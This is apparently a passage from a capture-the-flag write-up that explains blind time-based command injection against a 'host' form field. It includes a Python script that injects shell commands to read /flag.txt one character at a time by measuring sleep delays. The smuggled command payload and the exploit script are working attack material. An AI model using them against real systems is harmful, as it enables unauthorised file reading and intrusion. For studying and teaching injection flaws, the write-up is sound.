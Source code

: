 In this case we can take the same approach used for time-based SQL injections, we will be reading the flags chars and comparing them, whenever our guess is correct we will sleep for few seconds (I used 7 because the server was slow).

The pseudo code will look like this:
```python
payload = f";if [ $(cat /flag.txt | cut -c{c_i+1} | grep -c '{c}') -eq 1 ]; then sleep {str(sleep_time)}; fi"
r = requests.post(url, data={"host": payload})
if r.elapsed.total_seconds() > sleep_time:
    # we guessed the char correctly
```

Automating this with python is great and would work fine locally, but the server was slow and there might be many errors to catch through the way, so I used BurpSuite Intruder during the ctf where I sent all the possible chars for each char address `-c ..`, checked the response time that are > 7 seconds and grabbed the flag manually.

But here is the python script that I used locally:
    
```python
#!/bin/python3
import requests
from string import printable

url = "http://127.0.0.1:5000/flag"
flag = "DEAD{"
sleep_time = 1

chars = printable
# those always return true in the search
chars = (
    chars.replace(".", "").replace("$", "").replace("^", "")
)  # mostly the flag charset is a-zA-Z0-9{}_-


def request(payload):
    data = {"host": payload}
    try:
        r = requests.post(url, data=data, timeout=15, verify=False)
    except requests.exceptions.ConnectionError:
        return request(payload)
    if r.status_code != 200 or "Error" in r.text:
        return request(payload)

    return r.elapsed.total_seconds()


c_i = len(flag)
while True:
    for c in chars:
        payload = f";if [ $(cat /flag.txt | cut -c{c_i+1} | grep -c '{c}') -eq 1 ]; then sleep {str(sleep_time)}; fi"  # this way it is possible to implement threading, but it will overload the server so I didn't try it.
        print(f"Tyring {c}", end="\r")
        r = request(payload)
        while sleep_time > r + 4:  # to handle possible falst posatives
            r = request(payload)
        if r >= sleep_time and r:
            print()
            flag += c
            print(flag)
            print()
            break
    if flag[-1] == "}":
        break
```